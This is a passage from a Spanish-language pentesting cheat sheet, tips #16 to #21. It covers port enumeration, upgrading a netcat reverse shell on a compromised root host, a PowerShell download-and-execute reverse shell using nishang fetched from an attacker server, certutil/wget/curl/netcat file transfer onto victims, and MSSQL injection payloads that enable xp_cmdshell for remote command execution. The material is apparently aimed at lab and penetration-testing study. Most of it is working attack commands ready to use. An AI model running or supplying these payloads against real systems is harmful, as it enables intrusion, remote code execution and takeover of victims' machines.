netstat -tln | awk '/LISTEN/ {split($4, a, ":"); print a[length(a)]}' | while read port; do echo "Checking port $port..."; curl -s --connect-timeout 2 -I http://127.0.0.1:$port >/dev/null && echo "Port $port is serving a web service." && curl -L -I http://127.0.0.1:$port|| echo "Port $port is not serving a web service."; echo "";done
```
Y se obtiene el siguiente resultado:
```bash
Checking port 22...
Port 22 is not serving a web service.

Checking port 80...
Port 80 is serving a web service.
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 20 Jan 2025 16:30:00 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: http://test.local/

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 20 Jan 2025 16:30:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1672
Connection: keep-alive
X-Powered-By: Express
Accept-Ranges: bytes
ETag: W/"688-tXvhf50YN65CYe3Yig9BzxwgBsg"
Vary: Accept-Encoding


Checking port 8600...
Port 8600 is not serving a web service.

Checking port 8500...
Port 8500 is serving a web service.
HTTP/1.1 301 Moved Permanently
Content-Type: text/html; charset=utf-8
Location: /ui/
Date: Mon, 20 Jan 2025 16:30:02 GMT

HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Length: 980373
Content-Type: text/html; charset=utf-8
Date: Mon, 20 Jan 2025 16:30:02 GMT


Checking port 8503...
Port 8503 is not serving a web service.

Checking port 8300...
Port 8300 is not serving a web service.

Checking port 8301...
Port 8301 is not serving a web service.

Checking port 8302...
Port 8302 is not serving a web service.

Checking port 3000...
Port 3000 is serving a web service.
HTTP/1.1 200 OK
X-Powered-By: Express
Accept-Ranges: bytes
Content-Type: text/html; charset=UTF-8
Content-Length: 1672
ETag: W/"688-tXvhf50YN65CYe3Yig9BzxwgBsg"
Vary: Accept-Encoding
Date: Mon, 20 Jan 2025 16:30:02 GMT
Connection: keep-alive
Keep-Alive: timeout=5


Checking port 3001...
Port 3001 is serving a web service.
HTTP/1.1 403 Forbidden
content-type: text/html; charset=UTF-8
vary: Origin
Content-Length: 0


Checking port 5432...
Port 5432 is not serving a web service.

Checking port 53...
Port 53 is not serving a web service.
```
Ahora si podemos proceder a realizar un **port forwarding** a los puertos web en busqueda de vulnerabilidades.

## Tip #16: Archivos de configuración de bases de datos
En esta sección publicare las rutas donde se encuentra el archivo de configuración para realizar la conexión con la base de datos de distintos CMS:
### LimeSurvey
```bash
[limesurvey_installation]/application/config/config.php
```
## Tip #17: Generar una shell interactiva en Linux
Cuando obtenemos una reverse shell debido a una vulnerabilidad en un sistema Linux, esta shell no es interactiva, es decir, no se pueden usar opciones como ir hacia arriba para comandos anteriores, Ctl+C para interrumpir un script, etc. para lograr que la shell se comporte como nativa necesitamos ejecutar ciertos comandos:
### Creacion del script
Despues de recibir la conexión mediante ```netcat``` procedemos a crear un script con el siguiente comando ```script /dev/null -c bash``` e inmediatamente despues utilizaremos la combinación ```Ctl+Z``` para enviar el proceso a segundo plano:
```bash
┌──(jorge㉿pentest)-[~]
└─$ nc -nlvp 9001     
listening on [any] 9001 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.X.X] 60738
bash: cannot set terminal process group (51285): Inappropriate ioctl for device
bash: no job control in this shell
root@victim:/# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@victim:/# ^Z
zsh: suspended  nc -nlvp 9001
```
### STTY
Ahora estaremos en nuestra maquina local con el proceso corriendo en segundo plano, lo que haremos sera desactivar ciertas modificaciones automaticas en nuestra consola con el comando ```stty raw -echo; fg```, ademas esto traera de vuelta a primer plano el proceso anterior:
```bash
┌──(jorge㉿pentest)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9001
                               reset
reset: unknown terminal type unknown
Terminal type? xterm
```
**Nota: Generalmente tienes que ingresar la palabra reset, deespues de ingresar el comando, aunado a ello ingresaras xterm como tipo de terminal**
### Exportar variables de entorno
La shell ya casi esta lista, solo es necesario exportar variables de entorno para que todo funcione correctamente:
```bash
root@victim:/# export SHELL=bash
root@victim:/# export TERM=xterm-256color
root@victim:/# ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   srv  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  sys  usr
root@victim:/# stty rows 30 columns 166
root@victim:/# ls
bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```
Como se puede observar en el primer ```ls``` la dimensión no esta ajustada correctamente, es por ello que se deben especificar las columnas y filas con el comando ```stty```, para ver que dimensiones son las correctas para tu computadora en una nueva ventana ejectuta el comando ```stty -a``` y lueho coloca el numero correspondiente.
## Tip #18: Generar una reverse shell para Windows
Cuando logramos una inyección de comandos en un sistema windows necesitamos de herramientas para generar una reverse shell, la mejor en mi opinión es la de nishang, para lograr la shell primero debemos descargar el archivo de powershell:
### Maquina atacante
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
```
Ahora montamos nuestro servidor web con python3:
```bash
python3 -m http.server 80
```
Y también iniciamos nuestro netcat a la escucha:
```bash
nc -nlvp 9001
```
### Maquina victima
Ahora el ultimo paso es inyectar el comando de powershell para entablar la conexión:
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```
## Tip #19: Transferencia de archivos en Windows
### CMD
```bash
C:\Users> certutil -urlcache -f http://<tu-servidor-web>/archivo.txt archivo.txt
```
### Powershell
```powershell
PS C:\Users> Invoke-WebRequest "http://<tu-servidor-web>/archivo.txt" -OutFile "C:\Users\archivo.txt"
```
## Tip #20: Transferencia de archivos en Linux
### Mediante servidor web
Para transferir archivos a una maquina remota primero debemos ubicarnos en el directorio donde esta ubicado el archivo a transferir y luego inicamos un servidor web mediante python3:
```bash
┌──(jorge㉿pentest)-[/tmp]
└─$ ls                       
test.txt

┌──(jorge㉿pentest)-[/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
#### wget
wget es una utilidad en linux que permite obtener archivos descargandolos de servidores web:
```bash
alberto@remote:/tmp$ wget http://<nuestra-IP-atacante>/test.txt

--2025-01-20 18:23:23--  http://<nuestra-IP-atacante>/test.txt
Connecting to <nuestra-IP-atacante>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19 [text/plain]
Saving to: ‘test.txt’

test.txt                                  100%[===================================================================================>]      19  --.-KB/s    in 0s      

2025-01-20 18:23:24 (1.17 MB/s) - ‘test.txt’ saved [19/19]
```
#### curl
curl tambien permite obtener archivos de servidores web:
```bash
alberto@remote:/tmp$ curl http://<nuestra-IP-atacante>/test.txt -o test.txt

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    19  100    19    0     0    126      0 --:--:-- --:--:-- --:--:--   126
```
### Mediante red
#### netcat
En la maquina que recibira el archivo ejecutaremos el siguiente comando:
```bash
alberto@remote:/tmp$ nc -l -p 1234 > test.txt
```
Ahora en la maquina que envia el archivo ejecutaremos el siguiente comando:
```bash
nc -w 3 [IP-que-recibe-el-archivo] 1234 < test.txt
```
## Tip #21: De inyección SQL a RCE
Se puede obtener una ejecución remota de comandos a partir de una inyección sql, las instrucciones que se muestran a continuación son para MSSQL Server, sin embargo, es posible hacerlo para los demas DBMS.

Primero tenemos que habilitar las opciones avanzadas:
```bash
inyeccion';EXEC sp_configure 'show advanced options', 1; RECONFIGURE;--
```
Depues tenemos que habilitar el uso de ```xp_cmdshell```:
```bash
inyeccion';EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```
Una vez hecho esto podemos ejecutar comandos a nivel de sistema:
```bash
inyeccion';EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.X.X';--
```
Para una mayor información visitar el siguiente enlace: https://www.tarlogic.com/es/blog/red-team-tales-0x01/
